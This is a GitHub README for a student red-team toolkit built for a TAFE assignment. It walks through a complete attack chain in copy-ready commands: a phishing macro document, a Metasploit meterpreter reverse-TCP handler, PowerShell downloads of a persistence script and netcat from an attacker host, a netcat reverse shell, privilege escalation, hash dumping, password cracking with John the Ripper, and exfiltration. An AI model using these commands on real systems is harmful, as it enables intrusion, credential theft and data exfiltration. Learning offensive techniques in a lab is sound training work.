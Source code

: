 # THANATOS_77
![DALL·E 2023-05-08 18 37 02 - A glitch art knife ](https://user-images.githubusercontent.com/111553838/236778209-067c7d06-df52-4e1e-8683-e4ab827cc76b.png)

TRITIUM CYBER DEFENCE © All Rights Reserved 2023 

HTTP and malware delivery system for tafe assignment 

# PURPOSE

Provide a way for our team to serve files, extract data, and export data 
to create reports for our final assesment on a red team engagemnt. 

# SIMPLI X KILL CHAIN 

1. Recon and sniffing 
2. Configuring payloads  
3. get credentials from phishing a confidential document (enter password to open) 
4. use credentials to download and launch a netcat listener 
5. open a reverse shell and use the scp protocol to exfiltrate data 
6. Launch a cleaner program, DOS test 
7. Reboot to clear RAM 
All steps are sub 15 minutes total.  

# INSTALL 
## Clone the repo, allow config yada yada 

# CONFIG 
config here: should be handled by scripts 

# MANIFEST FOR TAFE ASSIGNMENT 
Below is the specific steps for; dependencies, requirements, and commands for the IRTx scenario. 
Utilising the aformentioned tools and tools within this git hub repository. 

## Beware: 
Networking variables and http / folder locations in following programs are set to defaults and may need configurations pertaining to your current attack.
1. FLASK_25.py
2. msfstarted.py
3. generate_macro_doc.sh
4. Programs within /uploads
5. Powershell scripts /\

-Clone repo 
```
git clone https://github/SATUNIX/THANATOS_77
```
-Change permissions
```
sudo chmod +x * 
```
-Run msfstarter.py as sudo 
``` 
sudo python3 msfstarter.py
```
This will start a metasploit console listner in your current terminal. 
![image](https://github.com/SATUNIX/THANATOS_77/assets/111553838/31a52ab2-4be3-4b30-85c4-1a3b4fbfaaf0)


You may recieve the following errors: 

![image](https://github.com/SATUNIX/THANATOS_77/assets/111553838/c576a96d-8b98-4135-b144-12c37a9b9cf7)
If so: Please run the commands manually, your payload file should be created at this stage.
    Replace variables with your respective configurations. 
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST {my_ip}
set LPORT {my_port}
exploit -j -z
```

-Run an appropriate flask program (Suggested is FLASK_25.py with variables adjusted to your configuration) 
![image](https://github.com/SATUNIX/THANATOS_77/assets/111553838/110a919c-3fd7-4df3-bd06-a61c2c05ff12)

-Below is the web page for your C2 (Command and control server)
-Here you are able to manually download and upload files to your kali / attacking machine. If the pfsense router is setup correctly, you should be able to recieve traffic. 
![image](https://github.com/SATUNIX/THANATOS_77/assets/111553838/172562ea-a163-49de-8f16-76415200846f)

-Target downloads document from generator from phishing

-All of the scripts require your own testing and configuration to verify the flask structure for get requests, netcat listeners, etc 

-Verify command as you are requesting powershell scripts within <yourIP/uploads/> 
-In msf console command: 
```
powershell -c "Invoke-WebRequest -Uri 'http://10.1.1.1:8080/persistence.bat' -OutFile 'persistence.bat'"
powershell -c "Invoke-WebRequest -Uri 'http://10.1.1.1:8080/nc.bin' -OutFile 'nc.exe'"
```

-Start netcat listner in kali 

``` 
nc -lvp 8339
```

-Go back to msf console and run following to start netcat shells and persistance 

```
nc.exe 10.1.1.1 8339 -e
```

-Metasploit privalage escalation V1: 
    In msf console try: 
    
```
meterpreter > getsystem
```

If successful you will have system access, if not:
Simultaneously perform the following and the manual steps below: 

```
meterpreter > hashdump 
meterpreter > hashdump > hashes.txt
john --format=NT hashes.txt
```
In another shell run to crack with wordlist: 

```
john --format=NT --wordlist= PATH TO WORDLIST HERE/.txt hashes.txt
```
A default wordlist for the tafe assignment is provided in the uploads directory. 

MANUALLY PERFORMING TASKS INCASE OF PYTHON AUTOMATION FALIURE. 
*****Replace <session_id> with the ID of your Meterpreter session.***

```
meterpreter > sysinfo 
meterpreter > background 
msf > use post/multi/recon/local_exploit_suggester
msf post(local_exploit_suggester) > set SESSION <session_id>
msf post(local_exploit_suggester) > set SHOWDESCRIPTION true
msf post(local_exploit_suggester) > run
```

From the list of suggested exploits, choose an appropriate one based on the target system's architecture and vulnerability. 

Set up and run the chosen exploit:

bash:
```
msf > use <exploit_name>
msf exploit(<exploit_name>) > set SESSION <session_id>
msf exploit(<exploit_name>) > set payload windows/meterpreter/reverse_tcp
msf exploit(<exploit_name>) > set LHOST <your_kali_ip>
msf exploit(<exploit_name>) > set LPORT <your_listener_port>
msf exploit(<exploit_name>) > exploit
```
If the exploit is successful, you should have a new Meterpreter session with administrator privileges. Use the hashdump command to dump the password hashes from the system:


## No warranty: 
Specific networked infrastructure for automating an attack. 
    Copyright (C) <2023>  <Anthony Grace and his team from Tafe>

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program.  If not, see <https://www.gnu.org/licenses/>.
